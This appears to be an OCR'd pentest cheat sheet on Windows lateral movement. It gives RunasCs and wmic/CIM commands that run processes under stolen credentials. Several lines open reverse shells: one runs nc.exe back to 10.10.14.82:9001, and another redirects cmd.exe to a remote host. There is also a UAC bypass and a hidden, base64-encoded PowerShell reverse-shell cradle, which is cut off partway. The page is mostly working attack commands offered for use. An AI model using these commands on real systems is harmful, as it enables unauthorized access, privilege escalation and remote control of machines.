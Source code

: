 # Lateral Movement

## Techniques

### [RunasCs](../11%20Windows/0%20Lateral%20Movement/RunasCs.md)

```powershell
# Run a command as a local user
.\RunasCs.exe user1 password1 "cmd /c whoami /all"

# Run a command as a domain user and logon type as NetworkCleartext (8)
.\RunasCs.exe user1 password1 "cmd /c whoami /all" -d domain -l 8

# Run a background process as a local user,
.\RunasCs.exe user1 password1 "C:\Temp\nc.exe 10.10.14.82 9001 -e cmd.exe" -t 0

# Redirect stdin, stdout and stderr of the specified command to a remote host
.\RunasCs.exe user1 password1 cmd.exe -r 10.10.10.10:4444

# Run a command simulating the /netonly flag of runas.exe
.\RunasCs.exe user1 password1 "cmd /c whoami /all" -l 9

# Run a command as an Administrator bypassing UAC
.\RunasCs.exe adm1 password1 "cmd /c whoami /priv" --bypass-uac

# Run a command as an Administrator through remote impersonation
.\RunasCs.exe adm1 password1 "cmd /c echo admin > C:\Windows\admin" -l 8 --remote-impersonation
```

### wmic (WMI)

`wmic` is an alternative to RunasCs if we dont have file download permission or need to be stealthy

```powershell
# Start a process
wmic /node:192.168.50.73 /user:jen /password:Nexus123! process call create "calc"

# Pop a shell
$username = 'jen';
$password = 'Nexus123!';
$secureString = ConvertTo-SecureString $password -AsPlaintext -Force;
$credential = New-Object System.Management.Automation.PSCredential $username, $secureString;
$Options = New-CimSessionOption -Protocol DCOM
$Session = New-Cimsession -ComputerName 192.168.50.73 -Credential $credential -SessionOption $Options
# Create a cradle with ps_cradle_gen.sh to upload
$Command = 'powershell -nop -w hidden -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQA5AD...
HUAcwBoACgAKQB9ADsAJABjAGwAaQBlAG4AdAAuAEMAbABvAHMAZQAoACkA';
Invoke-CimMethod -CimSession $Session -ClassName Win32_Process -MethodName Create -Arguments @{CommandLine =$Command};
```
